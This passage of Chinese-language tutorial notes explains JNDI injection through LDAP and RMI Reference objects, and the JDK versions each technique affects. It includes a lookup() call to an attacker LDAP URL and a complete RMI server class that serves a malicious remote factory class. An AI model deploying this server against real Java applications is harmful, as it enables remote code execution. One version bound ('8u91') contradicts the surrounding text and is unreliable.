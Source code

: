 ![img](https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/10.png)

## LDAP+Reference

除了RMI服务之外，JNDI还可以对接LDAP服务，且LDAP也能返回JNDI Reference对象，利用过程与上面RMI Reference基本一致，只是lookup()中的URL为一个LDAP地址如`ldap://xxx/xxx`，由攻击者控制的LDAP服务端返回一个恶意的JNDI Reference对象

**注意：**LDAP+Reference的技巧远程加载Factory类不受RMI+Reference中的com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase等属性的限制，所以适用范围更广。但在JDK 8u191、7u201、6u211之后，com.sun.jndi.ldap.object.trustURLCodebase属性的默认值被设置为false，对LDAP Reference远程工厂类的加载增加了限制

所以，当JDK版本介于8u191、7u201、6u211与6u141、7u131、8u121之间时，我们就可以利用LDAP+Reference的技巧来进行JNDI注入的利用

所以，利用前提是JDK8u91, 7u201, 6u211以下

```java
Context ctx = new InitialContext();
ctx.lookup("ldap://localhost:1234/EvilObject");
```

## RMI

### 低版本

服务端

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ServerExp {

    public static void main(String args[]) {

        try {
            Registry registry = LocateRegistry.createRegistry(1099);

            String factoryUrl = "http://localhost:1098/";
            Reference reference = new Reference("EvilClass","EvilClass", factoryUrl);
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("Foo", wrapper);

            System.err.println("Server ready, factoryUrl:" + factoryUrl);
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

